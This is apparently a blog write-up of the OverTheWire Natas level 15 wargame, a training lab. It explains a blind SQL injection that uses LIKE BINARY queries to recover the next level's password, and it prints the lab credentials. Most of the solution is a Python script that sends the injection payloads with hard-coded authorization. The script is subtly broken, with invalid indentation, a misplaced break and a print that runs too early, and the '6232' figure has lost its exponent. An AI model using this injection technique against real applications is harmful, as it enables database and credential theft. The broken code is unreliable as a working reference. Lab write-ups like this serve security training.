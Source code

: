 ```yaml
---
layout: post
title:  "Natas Level 15 → Level 16"
date: 2017-07-07
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 15
Username : natas15
Password : AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
URL      : http://natas15.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas15 application using the credentials provided above.

The application is slightly different from the previous level this time as the application is only checking for the existence of a user based on the username.
Let’s see if the user for next level **natas16** exists in the table **users**. The application returns **This user exists**. We can also see the query that was used to create the users table.

```sql
CREATE TABLE `users` ( 
 `username` varchar(64) DEFAULT NULL, 
 `password` varchar(64) DEFAULT NULL 
);
```

In this level, the application is only making a search for the existence of a user. This is unlike the last time when the application returned the password for the next level if the database query returned atleast one row.
However, since the application is not performing any checks on the sanctity of user’s input, SQL Injection still seems quite possible.
Let’s take a step back and analyze the previous passwords for all the other levels. All the passwords had the following in common:
- 32 characters
- Alphanumeric only and no special characters.

Based on this knowledge, it’s safe to argue that the password for the next level might follow the same pattern. Therefore, one of the options now is to brute force all the different combinations of 32 characters alphanumeric password.

```
Numbers – 10 (0-9)
Lowercase and Uppercase characters – 26×2 = 52
Total number of alphanumeric characters = 62
Total combinations of 32 alphanumeric characters = 6232
```
6232 seems like a large number to be able to brute force easily. There has to be a better way.

MySQL databases provide us with a function that allows us to check whether a substring exists in a string or not. For reference, follow this [MySQL document](https://dev.mysql.com/doc/refman/5.7/en/string-comparison-functions.html#operator_like). Let’s run the following query by enabling the debug GET variable and analyzing the output:

```sql
SELECT * from users where username="natas16" and password like "%a%";
```

This query checks for the existence of **a** anywhere in the password string for username natas16.

![Natas15-1](https://securitytimes.files.wordpress.com/2017/06/6-27-2017-11-17-50-am.png?w=663)

As we can see that the application responds back with **This user exists.**. Therefore, that means that the application returned atleast 1 row where the username was natas16 and the password contained the character **a**. We can now create a function to check all the alphanumeric characters one by one and create a list of the characters that exist in the password. We can then use those characters to find the password for natas16 username.

```python
import urllib2
alphanumericChars='1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
passwordChars=''
password=''
debug=0
targetURL='http://natas15.natas.labs.overthewire.org/'
passString = 'This user exists.'
REQ=urllib2.Request(targetURL, headers={"Authorization" : "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="})
try: 
    contents = urllib2.urlopen(REQ).read() 
        if debug: 
            print contents
    except urllib2.HTTPError as e: 
        print e.code 
        print e.read()
def findPassChars(): 
    global debug, passwordChars, targetURL, passString 
    for c in alphanumericChars: 
        completeURL=targetURL+'?debug='+ str(debug) +'&username=natas16"+and+password+like+BINARY+"%'+c+'%' 
        REQ=urllib2.Request(completeURL, headers={"Authorization" : "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}) 
        contents = urllib2.urlopen(REQ).read() 
        if contents.find(passString) != -1:                
            passwordChars+= c                
            print 'Password contains character     :    ' + c 
            if debug: 
                print contents
def findPassword(): 
    global debug, passwordChars, targetURL, password 
    for i in range(32): 
        for c in passwordChars: 
             completeURL=targetURL+'?debug='+ str(debug) +'&username=natas16"+and+password+like+BINARY+"'+ password + c+'%' 
             REQ=urllib2.Request(completeURL, headers={"Authorization" : "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}) 
             contents = urllib2.urlopen(REQ).read() 
             if contents.find(passString) != -1: 
                 if debug: 
                     print contents
                 password += c                
                 print 'Current password evaluation:' + password 
        break

print password
#Find characters in the password
findPassChars()
#Find password based on the characters found using findPassChars()
findPassword()
```
Note: MySQL like is case-insensitive therefore use BINARY to make your search case-sensitive.

In the above code, findPassChars function uses LIKE BINARY ‘%c%’, this helps us in finding if the character exists anywhere in the string. In the findPassword function uses LIKE BINARY ‘c%’. This distinction exists because now we are aware of the characters in the password and need to find their exact position.

<pre><h3><b>Level 16
Username : natas16
Password : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
URL      : http://natas16.natas.labs.overthewire.org</b></h3></pre>
